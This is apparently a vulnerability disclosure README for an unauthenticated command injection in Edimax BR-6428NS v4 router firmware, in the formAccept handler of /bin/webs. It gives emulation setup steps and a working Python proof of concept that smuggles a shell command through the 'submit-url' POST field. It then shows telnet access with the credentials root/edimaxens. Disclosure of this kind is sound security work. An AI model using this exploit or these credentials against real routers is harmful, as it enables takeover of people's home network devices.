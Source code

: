 # Command Injection

Command injection without any limitations

## Firmware

Wireless: Edimax home Wireless Routers N300 

Firmware Version: BR-6428NS_v4_1.10

You can download Firmware at this [website](https://www.edimax.com/edimax/download/download/data/edimax/global/download/wireless_routers_n300/br-6428ns_v4) and use FirmAE to simulate the router environment.

FirmAE command: `./run.sh -r v4 BR-6428NS_v4_1.10.bin`(This will take a while, please be patient:)

![image-20230428095433531](img/image-20230428095433531.png)

## Description

The vulnerability was found in **/bin/webs**.

Function is  **formAccept**

![image-20230428111649201](img/image-20230428111649201.png)

## poc

python

```python
import requests

command = "touch /tmp/Swe3ty3"

url = "http://192.168.2.1/goform/formAccept"
data = {
	"submit-url":command
}

r = requests.post(url,data=data)
print(r.text)
```

use **root/edimaxens** telnet to the router

```shell
telnet 192.168.2.1
```

![image-20230428111933476](img/image-20230428111933476.png)